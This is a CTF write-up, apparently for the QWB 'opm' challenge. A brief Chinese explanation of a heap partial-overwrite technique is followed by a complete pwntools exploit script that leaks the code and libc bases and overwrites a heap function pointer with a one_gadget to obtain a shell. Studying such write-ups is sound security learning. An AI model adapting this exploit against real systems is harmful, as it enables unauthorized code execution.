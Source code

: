 ![](n1ctf_qwb_fe79fce2e33a8ef18f13ce35fc9bf5a1.png)

由于是gets,所以会末尾写0,但是,这题有个特点,程序运行时在heap上会有个很大的chunk,以至于你只覆盖struct指针的最低位,第二位写0,但没有关系,第二位写0后这个指针依然在heap上,因为那个大chunk,因此我们有了一个相对固定的地址,让chunk相互重叠,最后leak出code段地址,libc基址,通过改heap上的函数指针到onegadget从而getshell

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./opm')
	bin = ELF('./opm')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	cn = remote('39.107.33.43', 13572)
	bin = ELF('./opm')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def add(s, punch):
	cn.recvuntil('(E)xit')
	cn.sendline('A')
	cn.recvuntil('Your name:')
	cn.sendline(s)
	cn.recvuntil('N punch?')
	cn.sendline(punch)

#padding
add('a'*0x30,'0')#0
add('a'*0x30,'1')#1

#leak
pay = 'asdasdasd'.ljust(0x80,'a')+'\x40'
add(pay,'1')
pay = 'zxczxczxc'.ljust(0x80,'a')+'\x2d'
add(pay, '1')
pay = 'a'*0x80+'\x40'
add('a',pay)
cn.recvuntil('<')
code_base = u64(cn.recvuntil('>')[:-1].ljust(8,'\x00'))-0xb30
success('code_base: '+hex(code_base))
bin.address=code_base


add('a'*0x80+'\x30',str(bin.got['atoi'] & 0xffffffff))
add('a','a'*0x80+'\x40')
cn.recvuntil('<')
libc_base = u64(cn.recvuntil('>')[:-1].ljust(8,'\x00'))-libc.sym['atoi']
success('libc_base: '+hex(libc_base))
ongadget = libc_base+0x4526a
add('a'*0x80+'\x34',str(ongadget >> 32))
add('a'*0x80+'\x30',str(ongadget & 0xffffffff))
add('a'*0x80+'\x48','1')

cn.sendline('S')
```